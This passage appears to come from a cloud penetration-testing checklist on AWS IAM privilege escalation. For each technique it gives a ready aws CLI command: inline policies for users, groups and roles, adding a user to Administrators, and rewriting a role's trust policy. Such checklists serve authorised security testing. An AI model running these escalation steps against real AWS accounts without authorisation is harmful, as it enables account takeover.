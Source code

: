 
### Attempt to Create/Update an Inline Policy for a User
- Attempt to identify a policy that enables performing any action on a resource to escalate privileges

- Try the below command to create/update an inline policy for an IAM user

  ```
  aws iam put-user-policy --user-name Bob --policy-name ExamplePolicy --policy-document file://AdminPolicy.json
  ```

### Attempt to Create/Update an Inline Policy for a Group
- Attempt to identify a policy that enables performing any action ona resource to escalate privileges

- Try the below command to create/update an inline policy for an IAM group

  ```
  aws iam put-group-policy --group-name Administrator --policy-document file://AdminPolicy.json --policy-name AdminRoot
  ```

  

### Attempt to Create/Update an Inline Policy for a Role
- Attempt to identify a policy that enables performing any action on a resource to escalate privileges

- Try the below command to create/update an inline policy for an IAM role

  ```
  aws iam put-role-policy --role-name RoleTest --policy-name ExamplePolicy --policy-document file://AdminPolicy.json
  ```

  

### Attempt to Add a User to a Group
- Attempt to add a user to an IAM Group from the user account and obtain escalated privileges of the IAM group

- Try the below command to add a user to an IAM group

  ```
  aws iam add-user-to-group --user-name John --group-name Administrators
  ```

  

### Attempt to Update AssumeRolePolicyDocument of a Role
- Attempt to modify the assume role policy document of an IAM role to enable the user to assume that role, and obtain escalated privileges attached to the IAM role

- Try the below command to update the AssumeRolePolicyDocument of a role

  ```
  aws iam update-assume-role-policy --role-name RoleTest --policy-document file: //RoleTest-Trust-Policy.json
  ```
